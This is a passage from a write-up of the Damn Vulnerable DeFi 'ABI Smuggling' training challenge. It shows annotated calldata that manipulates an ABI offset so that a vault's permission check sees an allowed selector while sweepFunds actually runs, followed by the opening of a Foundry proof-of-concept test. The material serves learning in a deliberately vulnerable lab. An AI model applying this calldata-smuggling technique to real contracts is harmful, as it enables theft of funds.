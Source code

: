 This will fail with a `NotAllowed` error because we are not authorized to call `sweepFunds` function.

However, by manipulating the offset in the calldata, we can trick the contract into passing the permission check:

```
// 1cff79cd                                                         -> `execute` function
// 0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 -> vault address
// 0000000000000000000000000000000000000000000000000000000000000080 -> offset
// 0000000000000000000000000000000000000000000000000000000000000044
// d9caed1200000000000000000000000000000000000000000000000000000000 -> for pass the permission check
// 0000000000000000000000000000000000000000000000000000000000000044 -> length
// 85fb709d                                                         -> `sweepFunds` function
// 00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea -> recovery address
// 0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b -> token address
```

In this modified version, we alter the offset and include filler data, effectively bypassing the permission check while still calling `sweepFunds` function.

### Attack steps:

1. Craft a malicious calldata to bypass the permission check and call the `sweepFunds` function to rescue the tokens to the `recovery` address.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {SelfAuthorizedVault, AuthorizedExecutor, IERC20} from "../../src/abi-smuggling/SelfAuthorizedVault.sol";
import "forge-std/console.sol";

contract ABISmugglingChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address recovery = makeAddr("recovery");

    uint256 constant VAULT_TOKEN_BALANCE = 1_000_000e18;

    DamnValuableToken token;
    SelfAuthorizedVault vault;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        startHoax(deployer);

        // Deploy token
        token = new DamnValuableToken();
```